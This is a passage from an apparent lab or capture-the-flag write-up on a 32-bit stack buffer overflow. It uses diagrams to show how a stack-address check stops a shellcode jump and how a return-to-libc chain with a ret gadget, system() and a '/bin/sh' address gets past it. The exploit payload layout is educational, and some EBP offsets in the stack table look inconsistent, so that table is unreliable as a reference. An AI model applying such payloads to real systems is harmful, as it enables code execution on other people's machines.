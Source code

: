### Why Stack Addresses Are Blocked

```
Overflow Attempt with Shellcode:
┌─────────────────────────────────────┐
│  Payload: "A" * 76 + buffer_addr    │
│           "A" * 76 + 0xbffff6e4     │ ← Shellcode address  
└─────────────────────────────────────┘
                      │
                      ▼
            ┌─────────────────────┐
            │  Security Check:    │
            │  if (ret_addr &     │  
            │      0xb0000000)    │
            │    exit(1);         │ ← BLOCKED!
            └─────────────────────┘

ROP Chain Solution:
┌─────────────────────────────────────┐
│  Payload: "A" * 76 + ret_gadget     │
│           "A" * 76 + 0x0804854b     │ ← ret instruction
└─────────────────────────────────────┘
                      │
                      ▼
            ┌─────────────────────┐
            │  Security Check:    │
            │  if (0x08048... &   │
            │      0xb0000000)    │
            │    continue;        │ ← PASSES!
            └─────────────────────┘
```

---

## �💻 Exploit Development

### ROP Chain Strategy:

```
Stack Layout After Overflow:

Position    Content              Purpose
─────────────────────────────────────────────────────────
EBP+8      [0xb7f8cc58]        "/bin/sh" address (arg to system)
EBP+4      [0x0804854b]        ret instruction (for stack alignment)
EBP+0      [0xb7e6b060]        system() address
EBP-4      [0x0804854b]        ret instruction address (initial return)
EBP-8      ["BBBB"]            Saved EBP overwrite (arbitrary)
EBP-12     ["AAAA"]            |
...        ["AAAA"]            | Buffer padding (76 bytes)
EBP-84     ["AAAA"]            |
```

